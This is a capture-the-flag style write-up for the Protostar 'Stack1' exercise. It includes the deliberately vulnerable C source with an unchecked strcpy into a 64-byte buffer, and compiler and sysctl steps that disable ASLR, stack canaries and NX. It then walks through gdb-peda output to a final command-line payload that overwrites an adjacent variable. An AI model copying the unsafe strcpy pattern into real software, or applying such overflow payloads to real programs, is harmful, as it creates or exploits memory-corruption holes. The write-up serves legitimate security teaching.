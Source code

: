 ## Protostar-Stack1 Solution

### 1. Introduction

This is a poc solution for the "Stack1" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170419031559/https://exploit-exercises.com/protostar/stack1/](https://web.archive.org/web/20170419031559/https://exploit-exercises.com/protostar/stack1/) 

**Hints:**
* This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.
* If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
* Protostar is little endian.

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + without nx-bit + Disable canaries + Disable ASLR + for x86:


```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o 1 1.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

1. Silently (-q) start with gdb.
2. Set intel syntax.
3. Disassemble the main function.

```nasm
$ gdb -q 1
Reading symbols from 1...
gdb-peda$ set disassembly-flavor intel
gdb-peda$ disas main
...
   0x0804924a <+84>:	call   0x80490a0 <strcpy@plt>
   0x0804924f <+89>:	add    esp,0x10
   0x08049252 <+92>:	mov    eax,DWORD PTR [ebp-0x1c]
=> 0x08049255 <+95>:	cmp    eax,0x61626364
   0x0804925a <+100>:	jne    0x8049270 <main+122>
...
```
Instructions shared above are quite interesting...
Uses strcpy, compares the value **"0x61626364"** and then jumps to address ***0x8049270** if it does not equal to the value on **eax** register.

Let's keep this one in our mind...
> 0x61626364

After an initial execution it's possible to understand it needs an argument from the terminal.

```js
$ ./1
1: please specify an argument
```

#### 2.2 Quick Solution

Let's set a breakpoint to address "0x08049252" then check what is there. 
```nasm
gdb-peda$ b *0x08049252
Breakpoint 1 at 0x8049252: file 1.c, line 18.
gdb-peda$ r AAAAAAAA
Starting program: /1 AAAAAAAA
[----------------------------------registers-----------------------------------]
EAX: 0xffffd0dc ("AAAAAAAA")
EBX: 0x804c000 --> 0x804bf14 --> 0x1 
ECX: 0xffffd3ac ("AAAAAAAA")
EDX: 0xffffd0dc ("AAAAAAAA")
ESI: 0xffffd150 --> 0x2 
EDI: 0xf7fb0000 --> 0x1ead6c 
EBP: 0xffffd138 --> 0x0 
ESP: 0xffffd0d0 --> 0x0 
EIP: 0x8049252 (<main+92>:	mov    eax,DWORD PTR [ebp-0x1c])
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[...DELETED...]

Breakpoint 1, main (argc=0x2, argv=0xffffd1e4) at 1.c:18
18	  if(modified == 0x61626364) {
```

> Since we compiled with debug symbols and we use peda, it's very easy to see...

So it checks if the value modified equals to **"0x61626364"** or not.

```x86asm
gdb-peda$ p/d 0x61
$32 = 97
gdb-peda$ p/d 0x62
$33 = 98
gdb-peda$ p/d 0x63
$34 = 99
gdb-peda$ p/d 0x64
$35 = 100
```
ASCII equivalent is **"dcba" (100 99 98 97)**. So we can send some kind of following payload:
[offset]+dcba or hex equivalent.

Run the binary again and let's see what happens:

```nasm
   0x0804924f <+89>:	add    esp,0x10
=> 0x08049252 <+92>:	mov    eax,DWORD PTR [ebp-0x1c]
   0x08049255 <+95>:	cmp    eax,0x61626364
```

Let's run it again then check what we have in that place **(ebp-0x1c)** with the following commands.

```nasm
gdb-peda$ r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNPPPPOOOOXXXX
..trim..
gdb-peda$ x/wx $ebp-0x1c
0xffffd0ec:	0x58585858
```

To let this solution post shorter I didn't want to do same steps multiple times. So, we found our offset:
```x86asm
gdb-peda$ python-interactive print(len('AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNPPPPOOOOXXXX')-4)
64
```

**esp dump:**
```nasm
gdb-peda$ x/20xw $esp
0xffffd0a0:	0x00000000	0x00000000	0xf7ffd000	0x41414141<=First(A)
0xffffd0b0:	0x42424242	0x43434343	0x44444444	0x45454545
0xffffd0c0:	0x46464646	0x47474747	0x48484848	0x49494949
0xffffd0d0:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
0xffffd0e0:	0x4e4e4e4e	0x50505050	0x4f4f4f4f  *0x58585858<=Target

gdb-peda$ c
Continuing.
Try again, you got 0x58585858
[Inferior 1 (process 7941) exited normally]
Warning: not running
```

I put 2 arrows in the output of **x/20xw $esp** command above.

*First*: Stands for the starting point of our input.

*Target*: Stands for the target place that we want to manipulate.

Our offset length will be = Target-First = 64


#### 2.3 PoC in gdb-peda:

```nasm
gdb-peda$ r $(python2 -c 'print "\x90"*64 + "\x64\x63\x62\x61"')

gdb-peda$ print modified
$1 = 0x61626364

gdb-peda$ x/wx $ebp-0x1c
0xffffd0ec:	0x61626364

gdb-peda$ x/20xw $esp
0xffffd0a0:	0x00000000	0x00000000	0xf7ffd000	0x90909090
0xffffd0b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd0c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd0d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd0e0:	0x90909090	0x90909090	0x90909090	0x61626364

gdb-peda$ c
Continuing.
you have correctly got the variable to the right value
[Inferior 1 (process 8471) exited normally]
Warning: not running
```

#### 2.3 Final PoC

```bash
$ ./1 `python2 -c 'print "\x90"*64 + "\x64\x63\x62\x61"'` 
you have correctly got the variable to the right value
```
